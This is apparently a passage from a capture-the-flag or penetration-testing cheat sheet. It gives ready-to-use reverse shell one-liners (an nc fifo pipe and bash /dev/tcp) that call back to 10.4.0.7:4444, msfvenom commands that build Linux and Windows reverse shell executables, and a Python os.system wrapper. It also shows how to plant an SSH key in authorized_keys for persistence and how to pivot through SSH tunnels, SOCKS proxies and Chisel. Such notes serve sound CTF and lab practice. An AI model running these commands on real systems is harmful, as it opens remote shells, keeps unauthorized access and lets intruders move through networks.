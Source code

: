 Otherwise, assuming nc is present:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.0.7 4444 >/tmp/f`

Pure bash if /dev/tcp is available (rare on CTFs):

`bash -i >& /dev/tcp/10.4.0.7/4444 0>&1`

Via msfvenom (still calling back to a nc listener), creating an executable called connect:

`msfvenom -p linux/x64/shell_reverse_tcp lhost=10.4.0.7 lport=4444 -f elf > connect`

For Windows:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.4.0.7 LPORT=4444 EXITFUNC=thread -f exe-only > shell4444.exe`

Otherwise use https://www.revshells.com/

If you do have python RCE, but the above is too weighty or you want something more concise, consider:

`import os; os.system("<any of the shell commands above>")`

## Creating authorized keys

1. create the `.ssh` folder using mkdir
2. echo your public key into `.ssh/authorized_keys`
3. `chmod 700 ~/.ssh`
4. `chmod 600 ~/.ssh/authorized_keys`

## SSH Proxies

**local port forwarding**: the target host 192.168.0.100 is running a service on port 8888, and you want that service available on the localhost port 7777

`ssh -L 7777:localhost:8888 user@192.168.0.100`

**remote port forwarding**: you are running a service on localhost port 9999, and you want that service available on the target host 192.168.0.100 port 12340

`ssh -R 12340:localhost:9999 user@192.168.0.100`

**Local proxy** through remote host: You want to route network traffic through a remote host target.host, so you create a local socks proxy on port 12001 and configure the SOCKS5 settings to localhost:1080

`ssh -C2qTnN -D 1080 user@target.host`

(args above are compression level, quiet, run in background and no command should be run)

**Double pivoting**, opening a socks proxy on a remote machine and forwarding that proxy so its accessible locally:

`ssh -tt -L8080:localhost:8157 sean@10.11.1.251 ssh -t -D 8157 mario@10.1.1.1 -p 222`

## Chisel

Can be used to get a reverse proxy. Useful for pivoting, opens a socks proxy from the target to your attack box, basically so the attack box has a proxy to the target's network.
